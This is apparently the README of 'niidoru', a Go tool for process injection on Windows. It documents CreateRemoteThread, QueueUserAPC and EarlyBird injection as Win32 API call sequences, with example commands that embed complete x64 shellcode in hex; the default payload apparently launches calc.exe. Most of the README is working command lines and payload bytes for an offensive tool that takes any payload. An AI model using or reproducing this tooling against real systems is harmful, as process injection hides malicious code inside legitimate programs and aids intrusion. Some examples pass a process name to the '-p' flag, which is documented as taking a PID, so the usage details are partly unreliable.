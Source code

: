 # niidoru

Framework for Process Injection using Go.

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
- -m (Mandatory): Process injection method. Options: 1, 2, 3

- -p (Optional):  Process ID or PID. Examples: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 

------------------------------

## Methods

**Method 1** (*-m 1*) or **CreateRemoteThread**: 

```
OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle
```

**Method 2** (*-m 2*) or **QueueUserAPC**: 

```
OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle
```

**Method 3** (*-m 3*) or **EarlyBird**: 

```
CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle
```

------------------------------

## Examples:

Process injection using CreateRemoteThread method, targeting a notepad.exe process and with a payload in hexadecimal format with "\x":  

```
go run . -m 1 -p notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 1234 and with a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 1234 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new notepad.exe process and with the default payload:

```
go run . -m 3 -p c:\windows\system32\notepad.exe 
```

------------------------------

## Binary

Compile:

```
go build
```

Run:

```` 
main.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
